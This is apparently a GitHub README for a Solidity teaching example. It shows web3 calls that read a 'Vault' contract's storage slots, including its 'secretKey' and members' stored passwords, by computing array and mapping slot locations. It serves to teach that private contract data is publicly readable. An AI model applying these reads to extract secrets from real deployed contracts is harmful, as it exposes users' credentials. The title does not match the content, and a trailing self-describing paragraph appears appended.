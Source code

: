 # Attack Example: Bypassing Contract Check in Solidity

This folder contains an example of a smart contract designed to demonstrate a storage layout and security implications in Solidity. It includes how contracts can store and access data in storage slots and how this can be exploited.

## Contracts Overview

### Vault Contract

The `Vault` contract illustrates:
- Storage slot allocation and usage.
- Functionality to register members with passwords.
- Utility functions to calculate storage locations for array elements and mapping entries.

## Storage Layout and Retrieval

The `Vault` contract uses specific storage slots for different variables. Here is a detailed guide on accessing the storage layout:

- **Slot 0: `itemCount`**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 0, console.log)
  ```

- **Slot 1: `shortNumber`, `statusFlag`, `contractOwner`**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 1, console.log)
  ```

- **Slot 2: `secretKey`**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 2, console.log)
  ```

- **Slot 6: Array length**
  ```javascript
  calculateArrayLocation(6, 0, 2)
  web3.utils.numberToHex("111414077815863400510004064629973595961579173665589224203503662149373724986687")
  web3.utils.soliditySha3({ type: "uint", value: 6 })
  ```

- **First member:**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d3f", console.log)
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d40", console.log)
  ```

- **Second member:**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d41", console.log)
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d42", console.log)
  ```

- **Slot 7: empty**
  ```javascript
  calculateMappingLocation(7, 1)
  web3.utils.numberToHex("81222191986226809103279119994707868322855741819905904417953092666699096963112")
  web3.utils.soliditySha3({ type: "uint", value: 1 }, { type: "uint", value: 7 })
  ```

- **Member 1:**
  ```javascript
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xb39221ace053465ec3453ce2b36430bd138b997ecea25c1043da0c366812b828", console.log)
  web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xb39221ace053465ec3453ce2b36430bd138b997ecea25c1043da0c366812b829", console.log)
  ```

Note: Use `web3.toAscii` to convert `bytes32` to readable text.

## Conclusion

This example demonstrates how data is stored in Solidity smart contracts and how to access this data directly via storage slots. Understanding these concepts is crucial for developing secure and efficient smart contracts.

## Author

- **Yaghoub Adelzadeh**
- **GitHub**: [dappteacher](https://www.github.com/dappteacher)

## License

This project is licensed under the MIT License.
```

This README provides a comprehensive overview of the contract, its purpose, and how to interact with it. It explains the storage layout and how to retrieve data from specific storage slots, making it useful for educational purposes or as a reference for understanding Solidity storage mechanics.
